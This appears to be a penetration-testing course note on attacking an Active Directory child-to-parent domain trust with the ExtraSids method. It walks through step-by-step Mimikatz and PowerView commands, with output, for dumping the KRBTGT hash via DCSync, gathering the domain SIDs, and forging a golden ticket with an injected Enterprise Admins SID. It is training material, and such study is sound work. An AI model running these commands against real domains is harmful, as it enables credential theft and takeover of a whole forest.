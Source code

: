 # Attacking Domain Trusts - Child -> Parent Trusts

## From Windows

### SID History Primer

The sidHistory attribute is used in migration scenarios.
The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

Attack : SID history injection and add an administrator account to the SID History attribute of an account they control

#### ExtraSids Attack - Mimikatz

Prerequisites :

- The KRBTGT hash for the child domain
- The SID for the child domain
- The SID of the Enterprise Admins group of the root domain.
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.

1) Obtaining the KRBTGT Account's NT Hash using Mimikatz
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

2) Using Get-DomainSID
Get-DomainSID
S-1-5-21-2806153819-209893948-922872689

3) Obtaining Enterprise Admins Group's SID using Get-DomainGroup
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

4) Using ls to Confirm No Access
ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied

5) Creating a Golden Ticket with Mimikatz
mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

--> S-1-5-21-2806153819-209893948-922872689 is the current domain SID
--> S-1-5-21-3842939050-3880317879-2865463114-519 : SID of Targeted Group
--> hacker is an arbitrary user which doesn't need to exist in the target domain
